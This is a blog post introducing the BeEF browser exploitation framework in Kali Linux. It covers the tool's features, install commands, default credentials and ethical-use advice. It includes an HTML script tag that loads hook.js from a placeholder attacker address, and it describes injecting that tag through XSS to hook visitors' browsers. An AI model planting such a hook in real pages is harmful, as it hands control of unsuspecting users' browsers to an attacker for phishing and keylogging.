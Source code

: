 ```yaml
---
title: Exploring BeEF A Powerful Kali Linux Tool
linkTitle: BeEF
description: This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.
date: 2024-11-22T16:29:00.893Z
draft: false
tags:
   - kali tools
categories:
   - Kali linux
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
weight: 300
keywords:
   - BeEF
featured_image: /images/kalilinux2.webp
url: exploring-beef-powerful-kali-linux-tool
translationKey: exploring-beef-powerful-kali-linux-tool
---
```

Web browsers are essential tools for accessing the internet, but they also represent one of the most significant attack vectors for malicious activities. **BeEF (Browser Exploitation Framework)** is a specialized penetration testing tool included in Kali Linux that focuses on leveraging browser vulnerabilities to assess and improve security. This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.

---

## What is BeEF?

BeEF is an open-source security framework designed to test and exploit vulnerabilities in web browsers. It enables penetration testers and security professionals to evaluate the security posture of systems by interacting directly with browsers. Unlike traditional network-focused tools, BeEF shifts attention to client-side vulnerabilities, such as those arising from JavaScript and cross-site scripting (XSS) attacks.

### Core Features

1. **Hooking Mechanism**:
   - BeEF uses a "hook.js" script to connect to a target browser. Once hooked, the browser becomes part of a command and control (C&C) environment where the tester can execute commands and assess vulnerabilities.

2. **Extensive Exploitation Modules**:
   - Over 300 built-in modules allow for tasks like keylogging, phishing, browser redirection, and network reconnaissance.

3. **Customizable Framework**:
   - Security professionals can inject custom JavaScript code to tailor their testing efforts.

4. **Real-Time Interaction**:
   - BeEF provides real-time interaction with compromised browsers via its web-based dashboard.

---

## Installing BeEF on Kali Linux

BeEF is easy to set up and use within Kali Linux. Follow these steps:

1. **Update Your System**:

   ```bash
   sudo apt update && sudo apt upgrade
   ```

2. **Install BeEF**:

   ```bash
   sudo apt install beef-xss
   ```

3. **Start BeEF**:

   ```bash
   service beef-xss start
   ```

4. **Access the Web Interface**:
   - Open a browser and navigate to `http://127.0.0.1:3000/ui/panel`.
   - The default credentials are:
     - Username: `beef`
     - Password: `beef`

5. **Configuration**:
   - Update credentials and configure logging options via the configuration file located in the BeEF directory.

---

## Using BeEF for Ethical Penetration Testing

### 1. **Browser Hooking**

BeEF hooks browsers by embedding the `hook.js` script into a website or application. For example:

```html
<script src="http://<IP>:3000/hook.js"></script>
```

When a user visits a webpage containing this script, their browser becomes "hooked" and visible in the BeEF dashboard.

### 2. **Launching Exploitation Modules**

Once a browser is hooked, testers can:

- Execute phishing campaigns (e.g., fake Google login pages).
- Redirect browsers to malicious or test sites.
- Perform network reconnaissance from the victim’s perspective.

### 3. **XSS Attacks**

If a vulnerable website is identified, testers can inject `hook.js` via an input field or stored script, hooking multiple users who access the compromised site.

---

## Ethical Use Cases

1. **Web Application Security Testing**:
   - Identify XSS vulnerabilities and assess the potential damage of browser-based exploits.

2. **User Awareness Training**:
   - Demonstrate the risks of insecure browsing habits by simulating phishing attacks or browser exploits in controlled environments.

3. **Incident Response**:
   - Analyze browser compromises to improve organizational defenses against real-world threats.

---

## Benefits and Limitations

### Benefits

- Comprehensive assessment of client-side vulnerabilities.
- Real-time interaction with hooked browsers.
- Extensible framework suitable for diverse testing scenarios.

### Limitations

- Limited to browser-based attacks and may not assess network-level vulnerabilities.
- Requires ethical use; misuse can lead to severe legal consequences.

---

## Best Practices for Responsible Use

1. **Obtain Permission**:
   - Only use BeEF on systems or networks where you have explicit authorization.

2. **Document Actions**:
   - Maintain logs of all activities performed during penetration testing.

3. **Ensure Legal Compliance**:
   - Familiarize yourself with local and international laws governing cybersecurity practices.

4. **Use in Isolated Environments**:
   - Avoid unintended harm by conducting tests in isolated or sandboxed systems.

---

## Conclusion

BeEF is a powerful tool in the hands of ethical hackers and cybersecurity professionals, allowing them to uncover and address vulnerabilities in web browsers and web applications. By leveraging its unique capabilities, organizations can enhance their security posture and educate users about the dangers of insecure web browsing. However, its use comes with a responsibility to adhere to ethical guidelines and legal frameworks, ensuring that the tool serves its intended purpose of improving cybersecurity.

For more information and resources, visit the official [BeEF project page](https://beefproject.com) or consult detailed documentation on Kali Linux’s [tool repository](https://www.kali.org/tools/beef-xss/)【18】【20】【22】.
